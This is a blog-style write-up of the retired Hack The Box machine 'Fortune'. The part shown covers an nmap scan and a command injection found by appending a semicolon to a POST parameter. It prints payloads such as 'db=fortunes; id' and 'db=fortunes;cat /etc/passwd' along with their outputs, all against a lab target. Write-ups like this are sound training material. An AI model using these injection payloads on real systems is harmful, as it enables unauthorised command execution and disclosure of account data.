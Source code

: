 ```yaml
---
layout: post
title:  "Hack The Box: 'Fortune' Writeup"
image: ''
date:   2019-08-05 00:09:53
tags:
- hackthebox
- pkcs12 certificate
- RCE
- nfs share
- pgadmin4
- sqlite3
- crypto

description: ''
categories:
- Hack The Box
---
```


<style>
	.header-site .site-title {
      	padding-top: 5px;
      	color: white;
      	text-align: center;
      	font-weight: bold;
      	padding-left: 19px;
	}
	
	.fortune-img {
		max-width: 75%;
	}

	.post-content img { 
		margin: 1.875rem auto;
		display: block;
	}
</style>

<img src="/assets/img/writeups/HTB-FORTUNE/HTB-FORTUNE-BADGE.PNG" class="fortune-img" alt="Hack The Box - Fortune">

<p><br></p>
### TL;DR 
There might not necessarily be anything "new" in this box if you've done all of the previous ones, but it's my absolute personal favorite. Thank you so much <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a> for creating it. I was so sad when it retired! 😢
<p><br></p>

### Overview

The `Fortune` machine on Hack The Box (created by <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a>) is a retired 50 point OpenBSD machine with some pretty interesting parts to it. If you have completed all of the previous boxes on HackTheBox, then `Fortune` should be pretty simple, as there is nothing particularly new introduced.
<p><br></p>

The box starts with simple web enumeration to locate RCE found in the site's `db` variable, which occurs when a semi colon (;) is appended to the end of the `db`. Next, some files are located via the RCE that can be used to create a PKCS12 cert which permits access to port 443. From there, an SSH key is located to access the user called `nfsuser` and escalate to the user `charlie` by mounting a newly found nfs share. SSH keys for `charlie` are then used to access the user via SSH and enumerate further.
<p><br></p>

Finally, there is a `pgadmin4` database running on the box which contains hashes for the root password. A file called `crypto.py` is utilized for `pgadmin4's` encoding/decoding process, and can be used here to decode the root password and ultimately grab the flag.

### Nmap Scan

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@rattLR:~/HTB-FORTUNE# nmap -sC -sV -A -Pn 10.10.10.127

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 11:27 EST
Nmap scan report for 10.10.10.127
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (EdDSA)
80/tcp  open  http       syn-ack OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https? syn-ack
|_ssl-date: TLS randomness does not represent time
</code></pre></div></div>

So, it appears port `443` is HTTPS (as expected), but it requires an SSL certificate to access it. I'll leave it alone for now because of this. However, port `80` proves to be quite interesting. 

### Web Enumeration

Here's what I discovered upon navigating to `http://10.10.10.127/` in my browser:

<img src="/assets/img/writeups/HTB-FORTUNE/fortune-homepage.PNG" class="fortune-img" alt="Hack The Box - Fortune Homepage">

Hmm... 

Let's try capturing a request with `Burp Suite!`

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes
```

The `db` variable looks pretty spicy! 🌶️

After running `wfuzz`, I discovered I could append a semi colon (;) to `db` and execute commands on the box, like so:

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes; id
```

And the response:
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Wed, 24 Jul 2019 12:27:19
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
```

Nice! We have code execution. Let's have a look around to see what else we can find. 

### Enumerating Users & User.txt

(Shortened output for readability):

```
db=fortunes;cat /etc/passwd

charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Well, well, well... It would appear we have three different users here. They are `charlie`, `bob`, and `nfsuser`. Immediately, `nfsuser` appears interesting to me given the naming convention. The username `nfsuser` can easily be attributed to an `nfs share`! Now, this is great and all, but I still don't know how to access these users, nor am I able to add my own `ssh` keys..
<p><br></p>

